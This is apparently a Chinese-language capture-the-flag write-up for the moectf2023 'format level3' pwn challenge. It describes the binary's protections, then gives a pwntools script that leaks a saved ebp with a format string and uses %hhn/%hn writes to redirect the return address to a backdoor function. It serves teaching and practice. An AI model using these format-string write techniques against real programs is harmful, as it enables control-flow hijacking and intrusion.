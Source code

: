 ```yaml
---
title: moectf2023 - format level3
date: 2023/9/26 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过利用ebp间接改写返回地址，成功利用后门漏洞解决format level3题目。
---
```


## 文件分析

下载`format_level3`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

和level2类似，存在后门，但是输入的str放到了.bss上

踩过的坑：16字节还想把栈迁移到.bss上？直接爆了（栈上的空间本来也不够）

正解：通过ebp+4来利用ebp间接改写返回地址

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 39665)

# payload 1
sh.sendline(b'3')
sh.sendline(b'%6$p')

prevEbp = int(sh.recvuntil(b'\nBut', True)[-10:], 16) # ebp -> prevEbp -> prevPrevEbp
retAddr = prevEbp + 4

# payload 2
sh.sendline(b'3')
sh.sendline(f'%{retAddr & 0xff}d%6$hhn'.encode())     # ebp -> prevEbp -> retAddr

# payload 3
sh.sendlineafter(b'ice:',b'3') # 不加after会导致所有输出全部挤在一起，原因未知
sh.sendline(f'%{0x9317}d%14$hn'.encode()) # retAddr: main -> success

# payload 4
sh.sendlineafter(b'ice:', b'4') # let it return

sh.interactive()
```

Done.
